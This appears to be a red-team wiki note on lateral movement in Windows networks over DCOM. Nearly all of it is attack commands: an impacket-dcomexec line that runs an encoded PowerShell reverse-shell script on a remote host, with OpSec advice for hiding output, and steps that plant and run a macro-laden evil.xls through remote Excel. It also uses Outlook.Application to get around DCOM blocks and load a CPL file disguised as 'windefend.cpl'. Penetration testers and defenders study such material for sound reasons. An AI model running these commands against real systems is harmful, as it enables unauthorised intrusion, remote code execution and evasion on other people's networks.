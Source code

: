 ```yaml
---
title: DCOM Lateral Movement
---
```


[[notes/lateral-movement/index]] over [[notes/network/dcom]].

Execute a reverse shell.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-dcomexec -k -no-pass -nooutput srv01.corp.com "powershell.exe -ep bypass -e $(iconv -t utf16le ./shell.ps1 | base64 -w0)"
    ~~~

    **OpSec:**
    The command output is written to a file and downloaded over SMB.
    This can be avoided by specifying `-nooutput`.

Untested tools:

- [CheeseDcom](https://github.com/klezVirus/CheeseTools#cheesedcom), implements many different methods in C#

References:

- [Developers are juicy targets: DCOM & Visual Studio](http://web.archive.org/web/20231224111004/https://adepts.of0x.cc/visual-studio-dcom/)
- [Windows Lateral Movement Part 2 – DCOM](http://web.archive.org/web/20230322175432/https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-2-dcom/), using `ExecuteExcel4Macro` or `RegisterXLL`
- [Lateral movement using Internet Explorer DCOM object and StdRegProv](http://web.archive.org/web/20230224075848/https://scribe.rip/@VakninHai/lateral-movement-using-internet-explorer-dcom-object-and-stdregprov-4f11362650e5)
- [Lateral movement using DCOM objects and C#](http://web.archive.org/web/20230101172433/https://klezvirus.github.io/RedTeaming/LateralMovement/LateralMovementDCOM/)
- [Unorthodox lateral movement: Stepping away from standard tradecraft](./unorthodox-lateral-movement.pdf), page 31 ff.

# Excel.Application

Check target `192.168.12.13`.

~~~ powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId('Excel.Application', '192.168.12.13'))
$com | Get-Member
~~~

Create new Excel document.
Select `View/Macros`, give the macro the name `mymacro` and insert the following VBA payload.

~~~ vba
Sub mymacro()
  shell("calc.exe")
End Sub
~~~

Then save the excel sheet in the old `*.xls` format.

Copy the document.

~~~ powershell
cp ./evil.xls \\192.168.12.13\c$\evil.xls
~~~

When Excel is started trough DCOM it runs in system context and complains about missing folders in its home directory.

~~~ powershell
mkdir \\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop
~~~

Run the macro.

~~~ powershell
$workbook = $com.Workbooks.Open('C:\evil.xls')
$workbook.Run('mymacro')
~~~

# Outlook.Application + CPL file

Remote access to some DCOM objects is blocked.
`Outlook.Application` can be used as a proxy to bypass this restriction.

Load CPL file via DCOM.

~~~ powershell
$a = [System.Activator]::CreateInstance([type]::GetTypeFromCLSID("0006F033-0000-0000-C000-000000000046", "ws01.corp.com"))
$b = $a.CreateObject("Shell.Apllication")
$b.ControlPanelItem("%TEMP%\windefend.cpl")
~~~

References:

- [TROOPERS22: Unorthodox Lateral Movement: Stepping Away from the Standard Tradecraft](https://www.youtube.com/watch?v=z3kUwvunBIo)
